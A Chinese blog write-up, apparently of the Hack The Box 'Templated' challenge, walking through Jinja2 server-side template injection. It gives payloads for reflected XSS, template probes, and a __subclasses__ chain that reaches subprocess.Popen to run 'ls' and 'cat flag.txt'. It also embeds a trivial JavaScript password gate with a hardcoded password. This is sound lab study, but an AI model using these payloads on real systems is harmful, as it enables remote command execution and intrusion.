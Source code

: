 ```yaml
---
title: '[HTB] Templated | writeup'
date: 2021-12-15 16:54:33
tags: [HTB,web,刷题,靶场]
published: true
hideInList: false
feature: 
isTop: false
---
```


# Templated
是ssti漏洞.

但是之前学习burpsuite下的题目的时候,没有学到这个.之前了解过概念.于是我专门回顾和学习了一下jinja2

尝试访问不存在的路径:

    payload : /xyz

    response : 发现会回显xyz在页面中


<!-- more -->
<script language = JavaScript> function password() {

    var testV = 1;

    var pass1 = prompt('please input the password','');

    var passwordforthisarticle = "dhlove";

    var inputtimemax = 5;

    while (testV < inputtimemax) {

    if (!pass1)

    history.go(-1);

    if (pass1 == passwordforthisarticle) {

    break;

    }

    testV+=1;

    var pass1 =

    prompt('Password error!');

    }

    if (pass1!= passwordforthisarticle & testV == inputtimemax)  

    history.go(-1);

    return " ";

    }

    document.write(password());

</script>

既然会回显,那么尝试一下XSS来弹窗一下

    payload : /<img src=1 onerror=alert(1)>

    response : 按照预料,进行了弹窗

但是此时,依旧没有flag.根据题目描述,应该是必须要用到模板.

确认是否存在模板的注入

    payload :  /{{1+1}}

    response : 会回显计算结果2

接着,我又继续学习了针对jinja2的ssti相关的知识:https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti(推荐这篇文章,非常不错!)

确认Flask的模板引擎为jinja2

    payload :  /{{config}}

尝试使用ssti基础的注入方式,查看python环境下,""所属的类,及继承该类的全部类(其实这里结果是全部的类及子类):

    payload : /{{"".__class__.__mro__[1].__subclasses__()}}

    response : 返回python下mro[1]的全部类及其子类

> mro 在python官方的文档下的Sepcial Attributes中有定义

此时我们查找Popen的python公共方法([https://docs.python.org/zh-cn/3/library/subprocess.html](https://docs.python.org/zh-cn/3/library/subprocess.html))

对该处使用burpsuite的intruder进行遍历,计算popen位于__subclasses__的下标编号.发现是414(其实还有一种方法是利用python语的切片表达式来快速定位)


看文档关于Popen的使用,参数可以使用字符,也可以使用序列(例如列表).

看文档得知,调用的方式是实例化Popen类,并调用其下的communicate()方法.同时,要保证stdout为Popen.PIPE.而PIPE为一个特殊的数字,来代表这些标准输出标准输入etc.

其中communicate()方法是为了和子进程进行交互的

所以我们可以先使用`__globals__` 来获取更多信息.比如说查看一下PIPE的值到底是多少

> `__globals__` : 返回一个当前空间下能使用的模块，方法和变量的字典

    payload : {{''.__class__.__mro__[1].__subclasses__()[414].__init__.__globals__}}

    response : 浏览器中使用<c-f>,查看到PIPE的值为-1

那么,我们现在可以实例化类并调用方法了

先看一下当前路径下的文件

    payload :  /{{''.__class__.__mro__[1].__subclasses__()[414]('ls -lh',shell=True,stdout=-1).communicate()}}

    response : 在response中查看到有flag.txt的文件

然后使用cat命令,输出flag的内容

    response : /{{''.__class__.__mro__[1].__subclasses__()[414]('cat flag.txt',shell=True,stdout=-1).communicate()}}

**最后**: 

这里使用的是Popen的方法进行任意命令执行的.也可以使用<class 'warnings.catch_warnings'>下的builtins 实现同样的目的

## Reference:

1. [https://www.youtube.com/watch?v=tv0We4MM7ic](https://www.youtube.com/watch?v=tv0We4MM7ic)
2. [https://souvikinator.netlify.app/blog/htb-web-l2/](https://souvikinator.netlify.app/blog/htb-web-l2/)